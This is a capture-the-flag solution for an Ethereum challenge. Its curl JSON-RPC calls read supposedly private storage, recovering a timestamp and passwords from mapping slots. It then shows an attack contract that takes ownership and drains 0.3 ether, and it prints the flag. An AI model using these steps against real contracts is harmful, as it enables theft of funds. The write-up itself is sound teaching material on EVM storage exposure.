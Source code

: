 # [MEDIUM] DuperSuperSafeSafe - Solution

**Author**: AtlanticBase

**Category**: Ethereum

This challenge requires you to make use of how blockchain stores information. Setting your variable private doesn't mean that it is private as you can still view it through other ways.

It requires you to know the `EVM storage layout`.

First, you will need to change the owner. In order to pass the condition, you will have to create a contract to call the function.

In order to get the timestamp,

```bash
curl --location --request POST 'awesome.chall.seetf.sg:40002/' \
--header 'Content-Type: application/json' \
--data-raw '{
	"jsonrpc":"2.0",
	"method": "eth_getStorageAt",
	"params": [
		"0x0E161f71f41baF3883a2CE0fe04cbaddb5259791",
		"0x2",
		"latest"
	],
	"id": 1
}'
```

You will get

`{"jsonrpc":"2.0","id":1,"result":"0x0000000000000000000000000000000000000000000000000000000062905ffd"}`

If you convert the result to decimal, you will get the epoch timestamp.

E.G. `1653628925`

Now, in order to get the passwords, you will need to understand how the mapping works.

Based on the code, the mapping variable is in the second slot of the storage.

However, solidity just uses that as a pointer to the actual data.

You will need to hash the slot (`0x1`) and the key of the mapping variable (`0x0`) to get the value.

You can use `web3` to calculate the hash

`web3.utils.soliditySha3(0, 1)`

The value is `0xa6eef7e35abe7026729641147f7915573c7e97b47efa546f5f6e3230263bcb49`

```bash
curl --location --request POST 'awesome.chall.seetf.sg:40002/' \
--header 'Content-Type: application/json' \
--data-raw '{
	"jsonrpc":"2.0",
	"method": "eth_getStorageAt",
	"params": [
		"0x0E161f71f41baF3883a2CE0fe04cbaddb5259791",
		"0xa6eef7e35abe7026729641147f7915573c7e97b47efa546f5f6e3230263bcb49",
		"latest"
	],
	"id": 1
}'
```

Then you will get `0x57617979616e6700000000000000000000000000000000000000000000000000`

In order to convert it to text, you can use
`web3.utils.hexToUtf8("0x57617979616e6700000000000000000000000000000000000000000000000000")`

Second slot,

`web3.utils.soliditySha3(1, 1)`

The value is `0xcc69885fda6bcc1a4ace058b4a62bf5e179ea78fd58a1ccd71c22cc9b688792f`

```bash
curl --location --request POST 'awesome.chall.seetf.sg:40002/' \
--header 'Content-Type: application/json' \
--data-raw '{
	"jsonrpc":"2.0",
	"method": "eth_getStorageAt",
	"params": [
		"0x0E161f71f41baF3883a2CE0fe04cbaddb5259791",
		"0xcc69885fda6bcc1a4ace058b4a62bf5e179ea78fd58a1ccd71c22cc9b688792f",
		"latest"
	],
	"id": 1
}'
```

The result is `{"jsonrpc":"2.0","id":1,"result":"0x4375746500000000000000000000000000000000000000000000000000000000"}`

Converting it to text, `Cute`.

Create an Attack Contract to call the `changeOwner` function

```javascript
contract DSSSAttack {

    DuperSuperSafeSafe dsss;

    constructor() {
        dsss = DuperSuperSafeSafe(payable(0x0E161f71f41baF3883a2CE0fe04cbaddb5259791));
        dsss.changeOwner([address]);
    }
}
```

After the owner is changed, you can call the `withdrawFunds` method directly as the EOA is the owner.

To solve, drain all the 0.3 ether in the contract.

Flag: `SEE{B10cKcH41n_I5_sUp3r_53cuRe!}`
